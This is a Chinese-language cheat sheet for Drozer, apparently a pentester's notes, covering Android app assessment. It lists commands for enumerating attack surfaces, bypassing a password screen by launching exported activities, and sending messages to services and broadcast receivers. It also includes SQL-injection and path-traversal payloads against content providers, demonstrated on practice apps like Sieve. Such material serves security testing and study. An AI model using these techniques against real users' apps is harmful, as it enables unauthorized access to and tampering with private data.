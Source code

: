```yaml
---
title: Drozer Cheat Sheet
tags: [Android, Drozer]

category: "Tools > Others > Android Related > Drozer"
---
```


# Drozer Cheat Sheet
## Basic Console
基本上最常用的command就是
```bash!
dz> run <drozer module> <optional object> # 啟動內建的module做到依稀操作
dz> help <drozer module> # 查看該module的說明以及參數設定
```

```bash!
dz> run app.package.list #列出所有已安裝的app package
dz> run app.package.list -f <key word> #列出特定的app package 
dz> run app.package.info -a <app package name> # 列出該app的基本訊息
dz> run app.package.manifest <app package name e.g. jakhar.aseem.diva> # 查看AndroidManifest.xml的資訊
dz> run app.package.attacksurface <app package name e.g. com.mwr.example.sieve> # 查看該app有什麼攻擊面
Attack Surface:
    3 activities exported # 也許可以啟動一個activity並且bypass某種應該阻止我啟動他的權限
    0 broadcast receivers exported
    2 content providers exported # 也許可以fetch private data或是利用某些漏洞 e.g. sqli or path traversal
    2 services exported
        is debuggable
```
接著根據得到的資訊看要用以下哪一種的攻擊模式
### activities exported
如果確定該app的AndroidManifest.xml有設定==android:export="true"==，就代表有機會bypass他的權限，根據[^csdn-androidmanifest-xml]這個地方的風險如下:
> android:exported
> 這個屬性用於指示該服務是否能夠被其他應用程序組件call或跟它interact。如果設置為true，則callable或interactable，否則不能。設置為false時，只有同一個應用程序的組件或帶有相同用戶ID的應用程序才能啟動或綁定該服務。
1. 列出export activities有哪些
    ```bash!
    dz> run app.activity.info -a <app package name>
    ```
2. 啟動activity
    ```bash!
    dz> run app.activity.start --component <app package name> <activity name fetched by above command>
    ```
    此時會看到手機啟動Sieve App，並且原本應該是需要password才能access的activity，居然可以直接bypass
    ![Screenshot_20240603-163856](https://hackmd.io/_uploads/rkrr-ZsNA.png =200x)

### services exported
和上面的問題差不多，只是差在被export的是services
1. 列出export services有哪些
    ```bash!
    dz> run app.service.info -a <app package nam>
    ```
2. 與該services互動
    這邊就不是像上一個activity一樣是啟動，而是要和他互動，因為service本來就是一個運行在背景的服務，他沒有畫面，無法和一般使用者互動，會需要的module如下
    ```
    app.service.send            Send a Message to a service, and display the reply
    app.service.start           Start Service
    app.service.stop            Stop Service
    ```
    如果去看`app.service.send`該如何使用，可以直接看範例就好，簡單來說我們可以丟給service一連串東西，就看逆向之後該service怎麼寫，如果參數不夠，可以用`--extra`去包後面的參數
    ```bash
        dz> run app.service.send com.example.srv com.example.srv.Service --msg 1 2 3 --extra float value 0.1324 --extra string test value
        Got a reply from com.example.srv/com.example.srv.Service:
          what: 1
          arg1: 2
          arg2: 3
        Data:
          value (float) : 0.1324
          test (string) : value
    ```
### broadcast receivers exported
根據[^pixnet-android-broadcast]的說明，broadcast屬於process之間的通訊，根據教學:
> 發現這些廣播接收器後，您應該檢查它們的代碼。特別注意**onReceive**函數，因為它將處理接收到的消息。

1. 檢測broadcast receiver
    ```bash
    dz> run app.broadcast.info # 檢測所有broadcast receiver
    dz> run app.broadcast.info -a <app package name> # 檢查特定app內的broadcast receiver
    ```
2. 和前面的exported service一樣，我們要和他們互動，但至於要傳送什麼也是要透過逆向來後來判斷
    ```bash
    app.broadcast.info          Get information about broadcast receivers
    app.broadcast.send          Send broadcast using an intent
    app.broadcast.sniff         Register a broadcast receiver that can sniff particular intents
    ```
    根據help的提示如下，可以知道該如何使用send→Sends an intent to broadcast receivers.
    ```bash
    dz> run app.broadcast.send --action <action name fetch by AndroidManifest.xml> --component <path to the function name> <function name>
    ```
    ```bash
    Examples:
    Attempt to send the BOOT_COMPLETED broadcast message:
        dz> run app.broadcast.send --action android.intent.action.BOOT_COMPLETED
        java.lang.SecurityException: Permission Denial: not allowed to send broadcast
    android.intent.action.BOOT_COMPLETED from pid=955, uid=10044
    ```
### content providers exported
1. 檢查Content Provider的exported狀況
    ```bash
    dz> run app.provider.info -a <app package name>
    
    # Drozer可以猜測並嘗試多個URI，這樣我們才知道確切的URI長怎樣
    dz> run scanner.provider.finduris -a <app package name>
    ```
2. 利用逆向判斷他是基於database還是基於file system的Content Provider
    * 基於DataBase
        ```bash
        #1. 查詢內容
        dz> run app.provider.query <URI> [--projection [columns ...]] [--selection conditions] [--selection-args [arg ...]] [--order by_column] [--vertical]
        
        #2. 插入內容
        dz> run app.provider.insert <URI> [--string key value] [--double key value] [--float key value] [--integer key value] [--long key value] [--short key value] [--boolean key value]
        
        #3. 更新內容
        #總而言之就是要選擇更新的地方，和要更新的內容為何
        #selection參數有點像是一般常見的"WHERE <conditions>"
        dz> run app.provider.update <URI> --selection <指定是哪一個欄位, format: "column name=?"> --selection-args <用來取代前面selection的問號，可以不只一個> [--string key value] [--double key value] [--float key value] [--integer key value] [--long key value] [--short key value] [--boolean key value]
        
        #4. 刪除內容
        #幾乎和前面一樣，也就是要指定刪除的位置
        dz> run app.provider.delete <URI> --selection <指定是哪一個欄位, format: "column name=?"> --selection-args <用來取代前面selection的問號，可以不只一個> 
        
        #5. SQLi
        #這邊是利用query來達到sqli，利用--selection和--projection這兩個參數，
        #projection這個參數，原文的解釋: 
        #the columns to SELECT from the database, as in "SELECT <projection> FROM ..."
        dz> run app.provider.query <URI> --selection "'"
        dz> run app.provider.query <URI> --projection "*
        
        #6. Drozer自動發現SQLi
        dz> run scanner.provider.injection -a <app package name>
        dz> run scanner.provider.sqltables -a <app package name>
        ```
    * 基於File System
        ```bash
        #1. 讀取文件
        dz> run app.provider.read <URI+path>
        
        #2. Path Traversal
        dz> run app.provider.read <URI+../../../../+path>
        
        #3. Drozer自動發現Path Traversal
        dz> run scanner.provider.traversal -a <app package name>
        
        #4. Download File to Local
        run app.provider.download <URI+path> hosts
        ```
### is debuggable
可以直接用drozer找，或者是直接看AndroidManifest.xml中有無提到==debuggable="true"==
```bash
# 找到所有debuggable的app
dz> run app.package.debuggable
```
